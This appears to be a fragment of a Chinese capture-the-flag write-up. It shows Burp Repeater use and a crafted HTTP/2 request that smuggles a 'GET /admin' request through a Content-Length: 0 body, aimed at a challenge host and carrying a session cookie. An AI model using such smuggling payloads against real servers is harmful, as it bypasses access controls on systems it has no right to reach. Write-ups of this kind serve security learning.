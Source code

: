 burp的repeater设置如下

![](./images/1701179283-image.png)

然后构造如下包

```
POST / HTTP/2
Host: 47.108.56.168:20231
Cookie: session=MTcwMTE3OTIzMHxuU2xmbXJZUzlIZHJwalliY3NOX0RnZGdhZE9HeUY4LUN2R2dJbXFXZUJkVnR6MmM5WmE2NGtPMDBIZERFVGYySFBfaFZQZ1dUTmxsa2dwZzVSOGFPVFJyZENaZ1NfV3p8h5Vp25VTWKcqT3tjYkXwER7Dm1NS_lpbiohR-WJ5_xo=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: https://47.108.56.168:20231
Referer: https://47.108.56.168:20231/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Te: trailers

GET /admin HTTP/1.1
Host: 47.108.56.168:20231
Cookie: session=MTcwMTE3OTIzMHxuU2xmbXJZUzlIZHJwalliY3NOX0RnZGdhZE9HeUY4LUN2R2dJbXFXZUJkVnR6MmM5WmE2NGtPMDBIZERFVGYySFBfaFZQZ1dUTmxsa2dwZzVSOGFPVFJyZENaZ1NfV3p8h5Vp25VTWKcqT3tjYkXwER7Dm1NS_lpbiohR-WJ5_xo=
Content-Length: 1

x=1
```
